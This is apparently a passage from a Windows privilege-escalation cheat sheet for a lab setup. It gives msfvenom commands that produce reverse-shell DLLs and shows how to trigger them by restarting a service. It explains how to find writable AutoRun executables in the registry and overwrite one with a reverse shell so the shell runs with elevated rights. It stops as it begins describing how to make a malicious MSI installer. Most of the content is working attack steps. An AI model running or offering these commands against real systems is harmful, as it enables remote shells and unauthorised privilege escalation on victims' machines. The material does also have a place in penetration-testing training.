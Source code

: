 #### On Kali, generate a reverse shell DLL named hijackme.dll:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o <NAME>.dll
msfvenom -p windows/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o <NAME>.dll
```

#### Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```

## Registery
### Autoruns
Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

#### Enumerate autorun executables
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

#### Check executables manually
```
.\accesschk.exe /accepteula -wvu "<PATH TO EXE>"
```

#### If an autorun executable is found, make a copy
```
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

#### Copy reverse shell to overwrite the autorun executable:
```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"
```

#### Start a listener on Kali, and then restart the Windows VM to trigger the exploit.
Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

### AlwaysInstallElevated
MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.
